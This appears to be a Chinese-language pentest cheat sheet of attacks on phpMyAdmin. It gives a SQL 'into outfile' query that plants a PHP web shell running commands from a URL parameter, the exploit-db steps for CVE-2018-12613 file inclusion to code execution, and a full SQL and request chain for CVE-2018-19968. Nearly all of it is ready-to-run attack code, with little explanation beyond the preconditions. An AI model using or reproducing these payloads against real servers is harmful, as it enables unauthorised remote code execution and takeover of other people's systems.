 # 高权限直接写shell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/getshell.php";
```
需要满足的条件
- 网站的绝对路径。
- 拥有可写权限
- 是union注入(如果是注入的话)


# CVE-2018-12613 本地文件包含 Version: 4.8.0, 4.8.1
https://www.exploit-db.com/exploits/40185
```
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```


# CVE-2018-19968 远程代码执行文件包含  Version: 4.8.0 ~ 4.8.3
```
#执行SQL
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
#访问
/chk_rel.php?fixall_pmadb=1&db=foo
#执行SQL，注意这里***换成phpmyadmin的cookie
INSERT INTO `pma__column_info`SELECT '1', 'foo', 'bar', 'baz', 'plop',
'plop', 'plop', 'plop',
'../../../../../../../../tmp/sess_***','plop';
#访问
/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
```

